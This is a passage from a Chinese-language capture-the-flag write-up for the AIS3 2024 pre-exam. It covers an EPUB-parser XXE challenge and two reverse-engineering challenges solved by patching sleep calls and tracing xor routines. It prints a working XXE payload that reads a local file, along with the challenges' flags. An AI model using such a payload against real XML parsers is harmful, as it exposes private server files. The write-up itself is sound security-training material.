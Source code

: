 解壓縮 `test.epub`，編輯 `EPUB/content.opf` 注入 XXE payload 後再重新壓縮回 `test.epub`

```xml
<!DOCTYPE data [<!ENTITY flag SYSTEM "file:///flag">]>
...
    <dc:title>&flag;</dc:title>
```
上傳後成功取得 flag

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/ebook-parser-solve.png)


## Flag

`AIS3{LP#1742885: lxml no longer expands external entities (XXE) by default}`

# The Long Print

## Solve

利用 ida 把 `sleep` 時間 patch 成 1 秒

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/the-long-print-solve-1.png)

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/the-long-print-solve-2.png)

執行程式並在 flag 消失前記下

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/the-long-print-solve-3.png)

## Flag

`AIS3{You_are_the_master_of_time_management!!!!?}`

# 火拳のエース

## Solve

先利用 ida 把 `usleep` 時間 patch 成 1 秒

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/火拳のエース-solve-1.png)

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/火拳のエース-solve-2.png)

看出程式會將剩下的 flag 分為四個長度 8 的 stirng，並分別 `xor_strings`、`complex_function` 每個字元後必須與 `"DHLIYJEG", "MZRERYND", "RUYODBAH", "BKEMPBRE"` 相同

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/火拳のエース-solve-3.png)

在 gdb 設定 break point 於 `xor_strings` 找出 flag 會 xor 的 string，分別為：
